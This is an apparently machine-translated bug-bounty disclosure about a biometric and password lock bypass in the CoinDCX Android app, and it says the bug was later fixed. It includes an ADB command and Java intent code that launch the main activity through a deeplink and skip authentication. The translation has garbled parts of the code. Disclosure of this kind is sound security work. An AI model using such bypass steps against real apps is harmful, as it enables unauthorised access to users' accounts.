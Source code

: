 # 绕过 android 的生物识别和密码安全功能

> 原文：<https://infosecwriteups.com/bypass-of-biometrics-password-security-functionality-for-android-8e0174ac7cac?source=collection_archive---------1----------------------->

> **报道:**2 月 27 日星期六晚上 8:52
> 2020**再次报道:**2020 年 11 月 2 日星期一凌晨 3:12
> 请求更新:2020 年 11 月 7 日星期六上午 10:02
> 另一个请求更新:2020 年 11 月 11 日星期三下午 12:20
> 。
> 。
> 。

没有来自 COINDCX 的回应，然后我决定 tweed 和标签当局联系他们。
[https://Twitter . com/Dheerajmadhukar/status/1365683708104118277](https://twitter.com/Dheerajmadhukar/status/1365683708104118277)

![](img/4ee65ed2d0aa2baf279592fbb448e309.png)

[https://twitter.com/nrjkhandelwal](https://twitter.com/nrjkhandelwal)https://twitter.com/smtgpt

又一次没人在乎！** **但是 BUG 已经修复** **

> **现在你有了实际的报告；)&概念验证**
> 
> **资产:**
> *com . coin dcx(Android:Play Store)*
> 
> **资产明细:**
> *版本— 0.8.3
> 更新—2020 年 10 月 27 日*
> 
> **测试安卓设备详情:**
> *非根*
> 
> **弱点:**
> *认证不当——通用*
> 
> **总结:**
> *CoinDCX Android App 有一个使用指纹和密码解锁 App 的选项。但是如果“com.coindcx.MainActivity”活动用“deeplink”触发，就不再需要认证了。*
> 
> **重现步骤:**
> *可以通过 ADB 和 Java (Android App):*
> 
> **ADB 命令:**
> $ ADB shell am start-n com . coin dcx/。主要活动-d "[https://coindcx.com](https://coindcx.com)
> 
> **Java(安卓应用):**
> 
> Intent Intent = new Intent()；
> intent . set class name(" com . coin dcx "，" com . coin dcx . main activity ")；
> intent . setdata(uri . parse(" https://coin dcx . com "))；
> startActivity(意图)；
> 
> **影响:**
> *未经授权访问使用应用程序。*

**概念验证**

***推特简介:****@*[Dheerajmadhukar](https://twitter.com/Dheerajmadhukar)

***LinkedIn 简介:****@*[dheerajtechnolegends](https://www.linkedin.com/in/dheerajtechnolegends/)
